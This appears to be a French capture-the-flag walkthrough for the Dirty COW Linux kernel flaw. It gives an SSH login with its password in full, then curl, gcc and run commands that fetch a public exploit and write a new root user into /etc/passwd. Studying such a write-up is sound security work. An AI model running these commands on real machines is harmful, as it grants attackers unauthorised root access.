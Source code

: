 # Dirty Cow 

- Cette faille disponible sur les linux version 2.6.22 (2007) à 4.8.3 (2016) permet d'ecrire sur des fichiers accessible uniquement en lecture seule
- On se connecte a **laurie**:**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en ssh
- On y regarde la version du linux pour savoir si l'exploit est compatible
```
$> uname -r

3.2.0-91-generic-pae
```
- L'exploit est compatible avec notre version de linux
- On lance l'exploit
```
curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
- L'exploit arrive à ecrire un nouvel utilisateur root dans `/etc/passwd`

## Source
- [Explication](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html#what-is-cow)
- [Excplication Youtube](https://www.youtube.com/watch?v=kEsshExn7aE)
- [Script](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
